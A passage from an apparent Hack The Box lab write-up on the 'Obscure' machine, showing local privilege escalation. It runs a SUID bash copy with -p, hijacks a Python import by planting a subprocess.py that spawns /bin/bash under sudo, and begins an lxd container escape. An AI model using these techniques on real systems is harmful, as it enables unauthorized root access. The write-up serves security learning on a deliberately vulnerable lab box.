 Now run it with `-p` to keep priv:

```

robert@obscure:/tmp$ ./.0xdf -p
.0xdf-4.4# id
uid=1000(robert) gid=1000(robert) euid=0(root) groups=1000(robert),4(adm),24(cdrom),30(dip),46(plugdev)

```

### Patched Path 3: PATH Hijack

At the time of release, the `BetterSSH` directory was writable by robert:

```

robert@obscure:~$ ls -ld BetterSSH/
drwxrwxrwx 2 root root 4096 Dec  2 09:47 BetterSSH/

```

Python always tries to load libraries from the directory containing the main file first, before checking the Python directories. So if I create a `subprocess.py` in that directory that is just a shell, I can then run `BetterSSH` and get a root shell:

```

robert@obscure:~/BetterSSH$ echo 'import os; os.system("/bin/bash")' > subprocess.py
robert@obscure:~/BetterSSH$ sudo /usr/bin/python3 /home/robert/BetterSSH/BetterSSH.py
root@obscure:~/BetterSSH# id
uid=0(root) gid=0(root) groups=0(root)

```

This was patched at some point between December 2019 and now (hopefully someday HTB will keep a [public patch log](https://www.hackthebox.eu/home/ideas/167?page=1)) by removing write permissions from the `BetterSSH` directory for non-root users.

### Patched Path 4: lxd

At the time of release, robert was in the lxd group:

```

robert@obscure:~$ id
uid=1000(robert) gid=1000(robert) groups=1000(robert),4(adm),24(cdrom),30(dip),46(plugdev),108(lxd)

```

There’s a privesc here that I showed (in poor detail) as a patched privesc on [Mischief](/2019/01/05/htb-mischief.html#option-3---lxc-patched). I’ll do a more complete job here.

The idea is to create a container on the system, then load it with the root of the file system mounted into the container. Because I have root in the container, I have root access to the entire host file system.

